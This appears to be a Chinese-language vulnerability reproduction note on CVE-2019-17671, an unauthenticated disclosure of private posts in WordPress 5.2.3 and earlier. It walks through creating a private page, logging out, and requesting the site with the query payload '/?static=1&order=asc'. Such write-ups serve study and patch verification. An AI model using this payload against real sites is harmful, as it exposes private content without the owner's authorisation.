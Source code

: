 （CVE-2019-17671）Wordpress未授权访问
=====================================

一、漏洞简介
------------

wordpress 爆出最新的查看未经身份验证的文章漏洞，
该漏洞源于程序没有正确处理静态查询，
攻击者可利用该漏洞未经认证查看部分内容

二、漏洞影响
------------

WordPress \<= 5.2.3

### 三、复现过程

![](./.resource/(CVE-2019-17671)Wordpress<=5.2.3未授权访问/media/rId24.png)

登陆后台新建私密页面
--------------------

![](./.resource/(CVE-2019-17671)Wordpress<=5.2.3未授权访问/media/rId26.png)

### 随便填入内容，选择私密，发布

![](./.resource/(CVE-2019-17671)Wordpress<=5.2.3未授权访问/media/rId28.png)

### 访问前台页面，退出登陆，模拟外部访问

![](./.resource/(CVE-2019-17671)Wordpress<=5.2.3未授权访问/media/rId30.png)

### 漏洞利用

直接访问，查看不了私密文章

![](./.resource/(CVE-2019-17671)Wordpress<=5.2.3未授权访问/media/rId32.png)

输入payload访问，即可未授权访问所有文章

    url+/?static=1&order=asc

image
